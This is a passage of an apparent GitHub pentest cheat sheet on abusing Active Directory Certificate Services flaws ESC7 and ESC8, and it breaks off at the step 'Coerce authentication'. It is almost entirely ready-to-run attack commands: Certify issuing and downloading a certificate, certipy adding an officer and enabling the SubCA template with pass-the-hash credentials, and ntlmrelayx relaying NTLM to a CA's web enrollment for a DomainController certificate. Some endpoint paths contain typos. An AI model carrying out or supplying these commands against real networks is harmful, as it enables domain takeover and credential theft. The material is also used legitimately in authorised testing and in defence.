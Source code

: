 ```
C:\Tools\Certify-esc7.exe issue /ca:CA_NAME /id:69
```

Retrieve the issued request -> Get certificate:

```
C:\Tools\Certify-esc7.exe download /ca:CA_NAME.DOMAIN\CBCA /id:69
```

Convert private key + certificate from .pem to .pfx:

```
C:\Tools\openssl\openssl.exe pkcs12 -in C:\Certs\esc7.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\Certs\esc7.pfx
```

EXTRA 1: No ManageCertificates -> Add ourselves as a new officer using existing ManageCA:

```
certipy ca -u USER@internalDOMAIN -hashes 'HASHES:HASHES' -ca 'CA_NAME' -dc-ip DC_IP -target CA_NAME.DOMAIN -add-officer USER
```

EXTRA 2: If SubCA disabled -> Enable ManageCA:

```
certipy ca -u USER@internalDOMAIN -hashes 'HASHES:HASHES' -ca 'CA_NAME' -dc-ip DC_IP -target CA_NAME.DOMAIN -enable-template 'SubCA'
```


<br>

### <a name="26"></a>2.6 &nbsp;&nbsp; ESC8

Condition: 

- Web enrollment interface enabled in the Certificate Authority (url is *http://CA_NAME.DOMAIN/certsrv/certsnsh.asp*)


Enumerate HTTP Enrollment Endpoints:

```
certutil -enrollmentServerURL -config CA_NAME
```

```
source certipy_venv/bin/activate
certipy find -u USER@DOMAIN -p 'PASSWORD' -dc-ip DC_IP -stdout
```

Set up relay:

```
source impacket_venv/bin/activate
/opt/Tools/impacket/examples/ntlmrelayx.py -t http://CA_NAME.DOMAIN/certsr/certfnsh.asp -smb2support --adcs --template 'DomainController'
```

Coerce authentication:
